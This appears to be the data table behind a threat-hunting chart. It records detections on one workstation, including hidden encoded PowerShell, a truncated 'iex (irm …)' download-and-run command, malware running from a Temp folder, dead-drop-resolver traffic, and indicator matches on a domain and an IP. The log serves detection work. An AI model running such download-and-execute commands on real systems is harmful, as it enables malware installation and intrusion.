

The table this chart was drawn from, first rows:
hunt, time, host, user, process, detail
H1 PowerShell abuse, 2026-10-05T13:00:07Z, WS-04, madina, powershell.exe, powershell.exe -w hidden -nop -enc SQBFA…
H1 PowerShell abuse, 2026-10-05T13:01:55Z, WS-04, madina, powershell.exe, powershell.exe -c iex (irm https://examp…
H2 Exec from Temp/AppData via PS, 2026-10-05T13:02:43Z, WS-04, madina, lf3t32pa.exe, C:\Users\madina\AppData\Local\Temp\lf3t3…
H3 DDR from non-browser, 2026-10-05T13:03:29Z, WS-04, madina, lf3t32pa.exe, steamcommunity.com
H3 DDR from non-browser, 2026-10-05T13:03:44Z, WS-04, madina, lf3t32pa.exe, telegram.me
H4 IOC match (intel-driven), 2026-10-05T12:59:59Z, WS-04, madina, chrome.exe, win11install.com
H4 IOC match (intel-driven), 2026-10-05T13:02:43Z, WS-04, madina, lf3t32pa.exe, C:\Users\madina\AppData\Local\Temp\lf3t3…
H4 IOC match (intel-driven), 2026-10-05T13:05:29Z, WS-04, madina, lf3t32pa.exe, 195.201.250.209
